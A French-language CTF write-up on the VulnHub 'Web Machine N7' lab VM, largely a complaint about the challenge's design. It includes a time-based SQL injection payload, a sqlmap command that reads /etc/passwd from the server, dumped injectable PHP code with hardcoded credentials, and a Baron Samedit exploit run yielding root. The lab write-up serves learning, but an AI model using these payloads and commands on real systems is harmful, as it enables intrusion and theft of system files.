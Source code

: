 # Solution du CTF Web Machine N7 de VulnHub

Worst CTF Ever
--------------

[Web Machine N7](https://www.vulnhub.com/entry/web-machine-n7,756/) est le nom d'un CTF téléchargeable sur VulnHub (le dernier publié au moment de ces lignes) et a été créé par un certain *Duty Mastr* qu'ils auraient mieux fait de noyer à la naissance.  

C'est déjà avec une certaine appréhension que je télécharge la VM puisque déjà elle fait 5.7Go et d'après la capture d'écran sur VulnHub elle est basée sur une installation graphique de Kali Linux. Mais quel genre d'abrutit utiliserait Kali Linux comme base pour un CTF ?  

Une fois la VM importée on remarque qu'elle est configurée pour utiliser 8192 Mo de RAM là où 4096 sera amplement suffisant.  

Le nanard des CTF
-----------------

Un seul port ouvert, bien sûr un serveur Apache. Le site est une coquille vide et il faut tester un bon nombre de wordlists avant d’obtenir plus que le fichier *profile.php* et la page d'index. Mais, en testant tous les mots de la langue de Shakespeare, on découvre une page supplémentaire :  

```plain
$ feroxbuster -u http://192.168.56.18/ -w /opt/hdd/downloads/tools/wordlists/english -x php,html,txt

200       11l       27w      279c http://192.168.56.18/exploit.html
200       49l      107w     1620c http://192.168.56.18/index.html
200       43l       94w     1473c http://192.168.56.18/profile.php
```

Cette page *exploit.html* correspond à un formulaire d'upload qui poste vers *localhost/profile.php*.  

On peut bêtement utiliser les outils de développement du navigateur pour corriger cette URL avec la bonne adresse IP pour faire fonctionner l'upload.  

On est remercié par un flag mais le fichier n'est uploadé nul part... On a donc ici une étape qui ne sert à rien.  

Après encore plus d'énumération et comme on ne trouve rien il faut bien chercher sur Internet si quelqu'un est allé plus loin.  

Il existe en fait un dossier *enter\_network* à la racine du site que personne n'aurait pu trouver (mis à part en trichant) puisque ce path n'est présent dans aucune wordlist existante !  

Là on découvre une page de login dont Wapiti découvre rapidement qu'elle est vulnérable à une faille d'injection SQL en aveugle :  

```plain
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.18/enter_network/ via une injection dans le paramètre user
Evil request:
    POST /enter_network/ HTTP/1.1
    Host: 192.168.56.18
    Referer: http://192.168.56.18/enter_network/
    Content-Type: application/x-www-form-urlencoded

    user=%27%20or%20sleep%287%29%231&pass=Letm3in_&sub=SEND
---
```

A partir de là on joue un peu avec SQLmap. Forcément au vue de l'exploitation time-based c'est très lent mais on peut par exemple trouver le flag utilisé comme mot de passe pour l'administrateur dans une des tables.  

Ceci ne nous amène là encore strictement nul part. Toutefois les requêtes sont faites avec l'utilisateur *root* ce qui nous permet de lire les scripts web sur le serveur (avec l'option *--file-read* de SQLmap).  

```plain
python sqlmap.py -u "http://192.168.56.18/enter_network/" --data "user=zz&pass=zz&sub=SEND" -p user --dbms mysql --risk 3 --level 5  --technique=T --file-read=/etc/passwd --no-cast --time-sec=2
```

Par exmple le fichier */var/www/html/enter\_network/index.php* :  

```php
<!DOCTYPE html>
<html>
<head>
    <title>entering network</title>
</head>
<body>
    <?php
    $hostname = 'localhost';
    $username = 'root';
    $password = '123456789';
    $database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);

if (isset($_POST['sub'])) {
    $user = $_POST['user'];
    $pass = $_POST['pass'];
    $query = "select * from login where username='$user' and password='$pass'";
    $result = mysqli_query($connect,$query);
    $row = mysqli_fetch_assoc($result);
    $role = 'admin';
    $role = urlencode(base64_encode(md5($role)));
    $cookie = $row['username'].':'.$row['password'];
    $cookie = base64_encode(password_hash($cookie,2));
    setcookie('user',$cookie, time()+10000,'/');
    setcookie('role',$role,time()+10000,'/');
}

?>
<center>
<form action="" method="POST">
    username: <input type="text" name="user">
    <br>
    password: <input type="password" name="pass">
    <br>
    <input type="submit" name="sub" value="SEND">
</form>
</center>

</body>
</html>
```

Le fichier */var/www/html/enter\_network/admin.php* :  

```php
<!DOCTYPE html>
<html>
    <head><title>admin interface</title></head>
<body>
    <?php
$hostname = 'localhost';
$username = 'root';
$password = '123456789';
$database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);
$query = "select password from login";
$result = mysqli_query($connect,$query);
$row = mysqli_fetch_assoc($result);

if ($_COOKIE['role'] == 'admin') {
    $FLAG = explode(':',$row['password']);    
    echo $FLAG[1];;
}
else {
    echo 'this interface is admin only';
}

?>
</body>
</html>
```

et le fichier *profile.php* à la racine du site :  

```php
<?php
$hostname = 'localhost';
$username = 'root';
$password = '123456789';
$database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);
$query = "select password from login";
$result = mysqli_query($connect,$query);
$row = mysqli_fetch_assoc($result);

if (isset($_FILES['file'])) {
    $FLAG = explode(':',$row['password']);    
    echo $FLAG[0];
}
?>
```

Oui vous avez bien compris, ces scripts ne permettent pas d'aller plus loin que la faille SQL déjà trouvée !  

On peut espérer profiter des droits root pour écrire un fichier sur le disque avec *SELECT INTO OUTFILE* sauf que c'est impossible car après vérification */var/www/html* est la propriété de root et donc *www-data* ne peut pas écrire dessus mais de plus l'utilisation d'une version récente de MySQL/MariaDB bloque ce genre de chose...  

Pour résumer on a :  

* des étapes qui ne servent à rien
* des étapes qui ne s'enchaînent pas
* un dossier impossible à trouver
* une VM d'une taille largement exagérée pour faire tourner 3 scripts PHP
* aucune découverte technique ni aucun plaisir sur ce CTF

Sous le capot
-------------

Si on boot la VM et que l'on sélectionne les options avancées on peut éditer l'entrée GRUB avec la touche *e* et [changer le mot de passe root](https://linuxconfig.org/recover-reset-forgotten-linux-root-password) histoire de fouiller un peu.  

Comme dit plus tôt toute écriture sur le disque est vouée à l'échec en raison des permissions. Seul le fichier *profile.php* dispose de permissions qui autorisent sa réécriture mais un des prérequis de *SELECT INTO OUTFILE* est que le fichier ne doit pas déjà exister.  

```plain
┌──(root💀kali)-[/var/www/html]
└─# ls -al /var/www/html 
total 176
drwxr-xr-x 3 root     root   4096 Oct 30 01:43 .
drwxr-xr-x 3 root     root   4096 Oct 29 21:10 ..
-rwxr-xr-x 1 root     root 149791 Oct 30 01:01 bootstrap.min.css
drwxr-xr-x 2 root     root   4096 Oct 30 01:44 enter_network
-rw-r--r-- 1 root     root    279 Oct 30 01:04 exploit.html
-rwxr-xr-x 1 root     root   1620 Oct 30 01:01 index.html
-rwxr-xr-x 1 root     root      0 Oct 30 01:01 javascript.js
-rwxrwxrwx 1 www-data root   1860 Oct 30 01:43 profile.php
-rwxr-xr-x 1 root     root    293 Oct 30 01:01 style.css
```

Soit l'auteur a choisit d'arrêter les frais à ce moment, soit il ne sait pas lire une page de manuel et dans tous les cas il n'a pas du tester son propre CTF.  

On découvre d'ailleurs en fouillant sur la machine qu'aucune exploitation locale n'a été mis en place volontairement. Le système est tout de même vulnérable à la faille Sudo Baron Samedit :  

```plain
┌──(kali㉿kali)-[~/CVE-2021-3156-main]
└─$ python exploit_nss.py 
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),129(lpadmin),135(scanner),148(kaboxer),1000(kali)
# lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2020.4
Codename:       kali-rolling
```

Bref un CTF inutile et inutilisable qui ne fait que gaspiller du temps, de l'espace disque et de la bande passante.  


*Published January 09 2022 at 14 21*